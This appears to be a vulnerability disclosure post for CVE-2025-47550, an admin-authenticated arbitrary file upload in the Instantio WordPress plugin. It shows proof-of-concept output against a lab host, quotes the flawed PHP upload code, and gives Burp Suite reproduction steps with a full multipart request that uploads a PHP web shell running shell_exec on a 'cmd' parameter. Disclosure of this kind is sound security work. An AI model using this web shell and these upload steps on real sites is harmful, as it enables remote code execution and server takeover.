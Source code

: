 +++
title = 'Instantio - Wordpress Plugin <= 3.3.16 - Authenticated (Admin+) Arbitrary File Upload via ins_options_save'
date = 2025-05-07T05:18:12+00:00
hideToc = true
tags = ["CVE", "WordPress"]
description = "CVE-2025-47550: WordPress Instantio plugin authenticated file upload vulnerability allowing admin users to upload arbitrary files."
+++

### CVE-2025-47550

The [Instantio](https://wordpress.org/plugins/instantio/) plugin does not sanitize the file types in its options save functionality, allowing administrators or above to upload arbitrary files and potentially gain code execution on the server.

## TL;DR Exploits
* A POC [CVE-2025-47550.py](https://github.com/d0n601/CVE-2025-47550/blob/main/CVE-2025-47550.py) is provided to demonstrate an administrator uploading a web shell named `shell.php`.

```console
% python3 CVE-2025-47550.py https://lab1.hacker admin PASSWORD
Logging into: https://lab1.hacker/wp-admin
Extracting nonce values...
Uploading web shell: shell.php
{"status":"success","message":"Options saved successfully!"}
Web Shell Location: https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php

Executing test command: ip addr
<pre>1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN group default qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host 
       valid_lft forever preferred_lft forever
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:5b:34:2f brd ff:ff:ff:ff:ff:ff
    altname enp0s3
    inet 10.0.2.15/24 metric 100 brd 10.0.2.255 scope global dynamic eth0
       valid_lft 33750sec preferred_lft 33750sec
    inet6 fd17:625c:f037:2:a00:27ff:fe5b:342f/64 scope global dynamic mngtmpaddr noprefixroute 
       valid_lft 86119sec preferred_lft 14119sec
    inet6 fe80::a00:27ff:fe5b:342f/64 scope link 
       valid_lft forever preferred_lft forever
3: eth1: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc fq_codel state UP group default qlen 1000
    link/ether 08:00:27:39:ea:eb brd ff:ff:ff:ff:ff:ff
    altname enp0s8
    inet 192.168.56.56/24 brd 192.168.56.255 scope global eth1
       valid_lft forever preferred_lft forever
    inet6 fe80::a00:27ff:fe39:eaeb/64 scope link 
       valid_lft forever preferred_lft forever
4: docker0: <NO-CARRIER,BROADCAST,MULTICAST,UP> mtu 1500 qdisc noqueue state DOWN group default 
    link/ether 02:42:e5:9e:f6:23 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
</pre>
```

## Details
The `ins_options_save` functionality in `/wp-content/plugins/instantio/admin/tf-options/classes/Ins_TF_Settings.php` processes file uploads without enforcing proper file type validation.

Lines [965-972](https://plugins.trac.wordpress.org/browser/instantio/trunk/admin/tf-options/classes/Ins_TF_Settings.php#L965-972) of the `save_options()` function check the HTTP request for $_FILES and only validates the MIME type against a generic `application/octet-stream`. It will then store the file in a web accessible directory `/wp-content/uploads/itinerary-fonts`.

```php
$tf_fonts_extantions = array( 'application/octet-stream' );
for ( $i = 0; $i < count( $_FILES['file']['name'] ); $i++ ) {
    if ( in_array( $_FILES['file']['type'][ $i ], $tf_fonts_extantions ) ) {
        $tf_font_filename = $_FILES['file']['name'][ $i ];
        move_uploaded_file( $_FILES['file']['tmp_name'][ $i ], $tf_itinerary_fonts . '/' . $tf_font_filename );
    }
}
```

## Manual Reproduction
1. Login to the admin panel and navigate to `Instantio -> Settings`.

2. Start up Burp Suite or a similar tool and begin intercepting the traffic. 

3. Click the `Save` button in the lower right hand corner. 
![test1](/posts/images/cve-2025-47550/1.png)
4. Intercept the POST request in Burp, and append your own file data (ensure you use the correct form boundaries).
```
------WebKitFormBoundarydAJeoqdwR5qxfDb1
Content-Disposition: form-data; name="file[]"; filename="shell.php"
Content-Type: application/octet-stream

<?php
// Silence is golden
if (!empty($_GET['cmd'])) {
    echo "<pre>".shell_exec($_GET["cmd"])."</pre>";
}
------WebKitFormBoundarydAJeoqdwR5qxfDb1--
```
![test2](/posts/images/cve-2025-47550/2.png)

5. Forward the request and verify the response indicates success:
```json
{"status":"success","message":"Options saved successfully!"}
```


6. Navigate to `https://lab1.hacker/wp-content/uploads/itinerary-fonts/shell.php` to execute the proof of concept.
![test3](/posts/images/cve-2025-47550/3.png)